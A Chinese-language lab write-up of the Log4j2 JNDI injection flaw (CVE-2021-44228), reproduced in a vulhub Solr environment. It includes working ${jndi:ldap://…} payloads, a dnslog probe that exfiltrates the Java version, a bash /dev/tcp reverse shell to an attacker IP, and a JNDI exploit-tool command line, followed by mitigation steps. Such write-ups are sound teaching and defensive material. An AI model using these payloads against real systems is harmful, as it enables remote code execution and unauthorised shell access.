








# CVE-2021-44228

### 1.1、漏洞描述

Log4j2默认支持解析ldap/rmi协议（只要打印的日志中包括ldap/rmi协议即可），并会通过名称从ldap服务端获取对应的Class文件，使用ClassLoader在本地加载Ldap服务端返回的Class类。这就为攻击者提供了攻击途径，攻击者可以在界面传入一个包含恶意内容（会提供一个恶意的Class文件）的ldap协议内容（如：恶意内容${jndi:ldap://localhost:9999/Test}恶意内容），该内容传递到后端被log4j2打印出来，就会触发恶意的Class的加载执行（可执行任意后台指令），从而达到攻击的目的。
```java
javaCopy Codeimport org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4jExample {
    // 获取Logger对象，参数为当前类名
    private static final Logger logger = LogManager.getLogger(Log4jExample.class);

    public static void main(String[] args) {
        // 示例日志输出
        logger.trace("Trace 级别日志");
        logger.debug("Debug 级别日志");
        logger.info("Info 级别日志");
        logger.warn("Warn 级别日志");
        logger.error("Error 级别日志");
        logger.fatal("Fatal 级别日志");
    }
}
```

${}这是一个表达式，我们可以利用表达是输出用户信息，当前时间等。

重要的是运用表达式我们就可以使用jndi协议了，例如${jndi:ldap://localhost:9999/Test} ，利用jndi请求地址为//localhost:9999的ldap服务，查找内容Test。

你怎么说//localhost:9999是一个ladp的服务呢！也许人家就是一个普通的地址呢！没错这里客户端也没法判定，也是在请求完之后判定的，这里输入dns的地址会解析吗？会，可以利用这个特点打下dnslog请求，初步确定漏洞。  

### 1.2、漏洞原理

[【精选】Log4j2注入漏洞(CVE-2021-44228)万字深度剖析(二)—漏洞原理_log4j2漏洞-CSDN博客](https://blog.csdn.net/hilaryfrank/article/details/121939902)

### 1.3、漏洞等级

高

### 1.4、影响版本

### 1.5、漏洞复现

#### 1、基础环境

Path：vulhub/log4j/CVE-2021-44228

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://your-ip:8983/solr/admin/cores?action=`即可看到






#### 2、漏洞验证

payload准备

```
${jndi:ldap://n2ii2r.dnslog.cn}
```



查看dnslog平台解析记录



payload插入表达式

```
${jndi:ldap://${sys:java.version}.n2ii2r.dnslog.cn}
```





### 1.6、深度利用

#### 1、反弹Shell

工具梭哈~

直接用JNDI注入工具`JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar`或`JNDIExploit-1.4-SNAPSHOT.jar`，可以在github上搜一下

> 使用方式：
> java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar [-C] [command] [-A] [address]

先执行如下命令，并base64编码

```bash
bash -i >& /dev/tcp/192.168.43.147/4567 0>&1
```



nc监听 

```bash
 nc -lnvp 4567
```



编码后的命令通过`-C`参数输入JNDI工具，通过通过`-A`参数指定攻击机的ip地址：

```bash
java -jar .\JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQzLjE0Ny80NTY3IDA+JjE=} | {base64,-d}|{bash,-i}" -A "192.168.43.147"
```


### 1.7、修复建议

**官方方案**：

将Log4j框架升级到2.15.0版本， 不要用2.15.0-rc1和2.15.0-rc2
**临时方案：**

1、升级JDK

2、修改log4j配置

2.1、设置参数：

```
log4j2.formatMsgNoLookups=True
```

2.2、修改jvm参数：

```
-Dlog4j2.formatMsgNoLookups=true
```

2.3、系统环境变量：

```
FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS设置为true
```

2.4、禁止log4j2所在的服务器外连

使用安全产品防护：WAF、RASP

### 1.8、参考

- https://blog.csdn.net/weixin_50892961/article/details/135446028
- [Log4j2注入漏洞(CVE-2021-44228)万字深度剖析](https://blog.csdn.net/hilaryfrank/article/details/121939902)